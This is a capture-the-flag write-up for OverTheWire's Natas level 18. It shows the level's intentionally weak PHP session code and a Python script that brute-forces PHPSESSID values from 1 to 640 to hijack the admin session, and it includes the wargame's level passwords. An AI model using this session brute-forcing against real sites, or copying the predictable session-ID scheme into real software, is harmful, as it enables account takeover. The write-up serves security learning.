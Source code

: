 - This level will test our skills of reading code and understanding how sessions work in PHP
- So we have the following mimic source code:
```php
<?php
$maxid = 640; // 640 should be enough for everyone
function isValidAdminLogin() { /* {{{ */
	if ($_REQUEST["username"] == "admin") {
	/* This method of authentication appears to be unsafe and has been disabled for now. */
	//return 1;
	}
	return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
	return is_numeric($id);
}
/* }}} */
function createID($user) { /* {{{ */
	global $maxid;
	return rand(1, $maxid);
}
/* }}} */
function debug($msg) { /* {{{ */
	if (array_key_exists("debug", $_GET)) {
		print "DEBUG: $msg<br>";
	}
}
/* }}} */
function my_session_start() { /* {{{ */
if (array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
	if (!session_start()) {
		debug("Session start failed");
		return false;
	} else {
	debug("Session start ok");
	if (!array_key_exists("admin", $_SESSION)) {
		debug("Session was old: admin flag set");
		$_SESSION["admin"] = 0; // backwards compatible, secure
	}
	return true;
	}
}
return false;
}

/* }}} */
function print_credentials()
{ /* {{{ */
	if ($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
	print "You are an admin. The credentials for the next level are:<br>";
	print "<pre>Username: natas19\n";
	print "Password: <censored></pre>";
} else {
print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
}
}
/* }}} */
$showform = true;
if (my_session_start()) {
	print_credentials();
	$showform = false;
} else {
if (array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
	session_id(createID($_REQUEST["username"]));
	session_start();
	$_SESSION["admin"] = isValidAdminLogin();
	debug("New session started");
	$showform = false;
	print_credentials();
}
}
?>
```
- So there's a lot of code in here to absorb, however if we look closely, we can find that the working code is present at the bottom
- The ```showform``` variable is just used to show or hide the form, and it isn't of that use to us
- Inside the ```if else``` block, we can see that the function ```my_session_start()``` is being checked and on the basis of its return value, the method ```print_credentials()``` is called in either of the blocks
- Inside the ```print_credentials()``` method, we can observe that the credentials of next level are printed only if the value of the session variable ```$_SESSION['admin']``` equals ```1```
- However, there is no code that actually sets this value to ```1```. The code only sets it to ```0``` no matter what the logic is
- From the knowledge of PHP sessions, we also know that the session variables are used to store information about the client sending request, since every HTTP request is stateless so the server can't keep track of the user. Sessions are used to present dynamic, tailored content per client and to keep track of the session, a cookie is sent to the client with the property ```PHPSESSID```
- Now since the client cannot modify the session variables on the server directly, we cannot control them entirely through the HTTP requests
- However, every session is stored on the server with a unique id that is mapped with the ```PHPSESSID``` that the client sends it to the server and corresponding to it the session is started
- So if we can find out the session id of the authenticated user, we can crack the level
- So how to guess the session id? Well, in the code we can have a look at the ```createID()``` method call that generates a unique random ID for each client. However, the random number lies between ```1``` and ```640``` which we can easily bruteforce
- So we write a python script that will go through all these 640 values and try to find out if the client is authenticated
- I wrote the following script for this purpose:
```python
import requests
from requests.auth import HTTPBasicAuth
URL = "http://natas18.natas.labs.overthewire.org/index.php"
auth = HTTPBasicAuth('natas18', '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')
FAILURE_TEXT = "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19."
for i in range(1, 641):
	cookie = { 'PHPSESSID' : f"{i}" }
	r = requests.post(URL, cookies=cookie, auth=auth)
	print(f"Trying session id: {i}")
	if FAILURE_TEXT not in r.text:
		print(f"Session ID found: {i}")
		print(r.text)
		break
```
- The script tries out every session id from 1 to 640 and checks if the text ```You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.``` is present in the response or not. If the text is not present in the response, this means we ```predicted``` the session and hence got access to it
- Obtained password for this level: tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr